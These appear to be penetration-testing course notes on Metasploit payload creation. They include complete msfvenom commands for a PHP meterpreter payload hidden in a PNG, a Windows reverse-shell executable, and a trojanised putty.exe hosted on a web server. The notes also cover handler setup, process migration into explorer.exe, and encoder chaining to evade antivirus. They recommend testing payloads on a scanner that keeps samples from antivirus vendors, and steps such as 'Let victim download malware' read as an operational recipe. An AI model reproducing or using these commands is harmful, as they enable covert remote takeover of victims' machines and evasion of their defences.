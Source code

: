 *--> Typical shellcode has a length of 300 to 400 Bytes*

## Example: Hide payload in benign file
- `msfvenom -p php/meterpreter/reverse_tcp lhost=IPv4 lport=8080 >> /home/Desktop/123.png`

## Example: Reverse Shell

**1. Kali**
- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IPv4 LPORT=443 -f exe -o payload`
   - for Android application: -f raw (because .apkis not available)
   - Optional: msfvenom --list formats (to check available formats)
   - Optional: msfvenom --list payloads (to check available payloads)

**2. Windows: Let victim download malware**

**3. Kali**
- msfconsole use exploit/multi/handler
- set payload windows/meterpreter_reverse_tcp
- set LHOST (Best Practice: 0.0.0.0 = accept connection on all IPs from anyone)
- set LPORT 443
- run

**4. Windows: Execute Malware**

**5. Kali: Meterpreter** 
- upload /usr/share/windows-binaries/nc.exe (upload further software on target)
- Info gathering on target: getuid, getprivs, getsystem
- Implement other extensions: load -l (Bsp: kiwi)

## Example: Putty-Trojan

- Carrier Application (CA): putty.exe 32Bit Binary File
- Wrapper: msfvenom (to combine payload and CA) 

1. `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -x /root/putty.exe -k -f exe -o /var/www/html/putty.exe`
   - x = Carrier Application
   - k = to execute both payload and carrier application 
2. Let victim download carrier application onto target system 
3. Kali: Meterpreter exploit/multi/handler 
4. Session starts/closes as soon as carrier application gets executed/closed
5. Attach your payload to another legitimate process to get independent of carrier application:
   - Example of legitimate process on Windows: explorer.exe 
   - Open terminal on Windows target system: `ps -S explorer`
   - remember PID 
6. Meterpreter: migrate [PID]

## Obfuscation Best Practice

1. Encoder: modify/rewrite binary
2. Packer: compression
3. Crypter: simple encryption
4. Wrapper/Embedder: hide payload inside legitimate program
5. Encryption (SSH, Ipsec, TLS)
6. Steganography
7. Covert Channel (misuse of legitimates channels)
8. Self written Payload has best stealth potential!

## Encoding

**Get an overview**
- `msfvenom -l encoders`

**Encoding Example #1**
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -a x86 --platform windows -e x86/shikata_ga_nai -i 130 -x /root/putty.exe -k -f exe -o /var/www/html/putty.exe`

**Encoding Example #2**
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -a x86 --platform windows -e x86/countdown -i 10 -x /root/putty.exe -k -f raw | msfvenom -a x86 --platform windows -e shikata_ga_nai -i 15 -f exe -o double-encoded-putty.exe`


## Check Payload Stealthiness

- [www.virustotal.com](www.virustotal.com)
    - more AV-filters in place but distribution of payload among AV-companies
- [www.nodistribute.com](www.nodistribute.com)
    - less AV-filters in place but no distribution of payload among AV-companies 
